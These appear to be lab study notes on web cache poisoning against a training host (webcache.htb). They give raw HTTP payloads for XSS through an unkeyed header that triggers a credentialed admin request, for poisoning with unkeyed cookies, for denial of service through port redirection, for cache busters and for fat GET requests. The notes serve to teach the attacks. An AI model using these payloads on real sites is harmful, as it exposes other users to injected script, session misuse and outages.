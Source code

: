 Payload XSS in Unkeyed Headers

```http
GET /index.php?language=de HTTP/1.1
Host: webcache.htb
X-Backend-Server: testserver.htb"></script><script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();//
```

### Impact

XSS
Unkeyed cookies
```http
GET /index.php HTTP/1.1
Host: webcache.htb
Cookie: consent=1;
```
if this response is cached, all other users will that visit the website are server content as if they already consented, also if color=blue cookie is cached, all other uses will still get server the blue layout if they previously choosen another color.

DOS
```http
GET / HTTP/1.1
Host: webcache.htb:80
```
If normalization is applied (stripping the port), this request will translate to this

```http
HTTP/1.1 302 Found
Location: http://webcache.htb:80/index.php
```
So, if we change the host to webcache.htb:1337, all users will be redirected to this port and achieve DOS.

## Cache Busters

In real cases, we need a unique cache key that we only use, so we get server the poisoned response and no real users are affected
```http
GET /index.php?language=unusedvalue&ref="><script>alert(1)</script> HTTP/1.1
Host: webcache.htb
```

## Advanced Techniques

### Fat Get
Basically GET request with request body (any method can contain request body but not necessarily effect), but is the server is misconfigured we can pass the keyed parameters in the request to cache the server.

This means our first request poisoned the cache with our injected fat GET parameter, but the web cache correctly uses the GET parameter in the URL to determine the cache key.
